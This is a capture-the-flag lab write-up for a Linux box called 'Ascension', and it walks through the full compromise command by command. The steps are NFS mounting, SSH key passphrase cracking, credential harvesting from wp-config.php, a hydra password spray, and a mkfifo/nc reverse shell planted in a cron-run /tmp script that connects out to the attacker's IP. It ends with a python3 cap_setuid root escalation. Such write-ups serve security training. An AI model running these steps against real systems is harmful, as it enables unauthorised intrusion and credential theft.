# Lab Report - Ascension


# Overview 
- **Difficulty**: Easy
- **Platform**: Linux
- **Link**: https://www.hacksmarter.org/courses/191a82d2-26de-437d-8a5a-0f9192481fbc

## Resolution Summary 
We mounted locally a remote directory which contained a passphrase-protected SSH private key. We cracked its passphrase and gained access as `user1`. Next, we identified a cronjob running as `user2` which executed a script in `/tmp` (world-writable). We gained a shell access as `user2` after placing a reverse shell script with the same filename in that directory. Afterwards, we discovered a WordPress install in the web root of the HTTP server, allowing us to retrieve credentials from the `wp-config.php` file for access to the local DB. In there we recovered credentials for `user3`. We also retrieved a password list from the FTP server using anonymous login, which we then sprayed on the `ftpuser` username to recover its credentials. Finally, we abused the `cap_setuid` on a python3 interpreter binary to gain a root shell.  

# Walkthrough
- First of all, we performed an Nmap scan in order to discover available services, their versions and additional information using NSE scripts. We discovered several available, among which we count FTP, SSH, NFS and HTTP: 
```bash
sudo nmap 10.1.247.241 -p- --open -sCV
```
<p align="center">
  
</p>

- We noticed that the FTP server allowed anonymous login. Therefore, we accessed the server and download the available file on it (`pwlist.txt`). The file seemed to be a candidate list of passwords to spray:
```bash
ftp 10.1.247.241 21
get pwlist.txt
```
<p align="center">
  
</p>

- We also found that NFS was available, hence we looked up if any directory was available and found out that it was the case. We mounted the said directory locally to be able to access its content: 
```bash
showmount -e 10.1.247.241
mkdir /tmp/mnt
sudo mount -t nfs 10.1.247.241:/ /tmp/mnt -o nolock
```
<p align="center">
  
</p>

- We discovered that it contained a pair of SSH keys (private and public) that may belong to the `pivot` user: 
```bash
ls -la /tmp/mnt/srv/nfs/user1
```
<p align="center">
  
</p>

- We attempted to log in via SSH as `pivot`. However, the private SSH key did not seem to belong to that user:
```bash
chmod 600 id_rsa
ssh pivot@10.1.247.241 -i id_rsa
```
<p align="center">
  
</p>

- However, we noticed that the mounted directory name may contain a valid username (`user1`). Hence, we tried to log in as `user1`. It seemed that the private SSH key was his, but we needed a passphrase to unlock it: 
```bash
ssh user1@10.1.247.241 -i id_rsa
```
<p align="center">
  
</p>

- Therefore, we first extracted the hash then cracked it with JTR, allowing us to successfully recover the passphrase:
```bash
ssh2john id_rsa > key_hash.txt
john --wordlist=~/Downloads/rockyou.txt key_hash.txt
```
<p align="center">
  
</p>

- Note: we had to reset the machine at some point due to technical issues, hence why the target's IP is different.

- Following that, we could access the SSH server: 
```bash
ssh user1@10.1.136.144 -i id_rsa
```
<p align="center">
  
</p>

- We proceeded to collect the first flag: 
```bash
cat /opt/user1/flag1
```
<p align="center">
  
</p>

- Next, we found that in the HTTP server web root, there was what seemed like a WordPress install. Therefore, we harvested MySQL credentials from the configuration file: 
```bash
cat /var/www/html/wp-config.php
```
<p align="center">
  
</p>

- We connected to the local MySQL instance and were able to retrieve another flag: 
```bash
mysql -u wpuser -pwppassword
use wordpress
select * from flags
```
	- Note: we found out it was the 4th flag by base64 decoding it
<p align="center">
  
</p>

- The other table available in the `wordpress` DB allowed us to gain credentials for `user3`:
```mysql
select * from users;
```
<p align="center">
  
</p>

- We logged in as `user3` and collected another flag:
```bash
su user3
cat /opt/user3/flag5
```
<p align="center">
  
</p>

- Next, we used `pspy64` (after transferring it to the target from our machine) in order to find if any cronjob was running, and noticed that `user2` was trying to execute a file `backup.sh` from `/tmp`, which is world-writable.

- From our attacking machine:
```bash
python3 -m http.server 80
```

- From the target machine:
```bash
wget http://10.200.114.229/pspy64
chmod +x pspy64
./pspy64 -pf -i 1000
```
<p align="center">
  
</p>

- Therefore, we placed a created a reverse shell `/tmp/backup.sh` and set up a listener in our machine to catch it: 
- From our attacking machine:
```bash
penelope -p 443
```
- From the target machine:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.200.114.229 443 >/tmp/f' > backup.sh
chmod +x backup.sh
```
<p align="center">
  
</p>

- We then collected a flag: 
```bash
cat /opt/user2/flag2
```
<p align="center">
  
</p>

- Having in mind the password list we found earlier from the FTP server, attempted to spray them now that we have a list of usernames and recovered the credentials for `ftpuser`: 
```bash
hydra -l ftpuser -P pwlist.txt ftp://10.1.136.144
```
<p align="center">
  
</p>

- Then, we logged in as `ftpuser` and collected another flag: 
```bash
su ftpuser
cat /opt/ftpuser/flag3
```
<p align="center">
  
</p>

- Finally, we identified that `user3` had a python3 binary with capability `cap_setuid=ep`, which could allow us to gain a root shell: 
```bash
find /home /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```
<p align="center">
  
</p>

- We can escalate to root using: 
```bash
./python3
import os; os.setuid(0); os.system("/bin/bash")
```
<p align="center">
  
</p>

- Finally, we collected the last flag: 
```bash
cat /opt/root/flag6
```
<p align="center">
  
</p>

# Trophy 
**Root Flag → `RkxBRzZ7c2RmanVkaGZzODIzNGtqbmJvaG5kamZ9`**
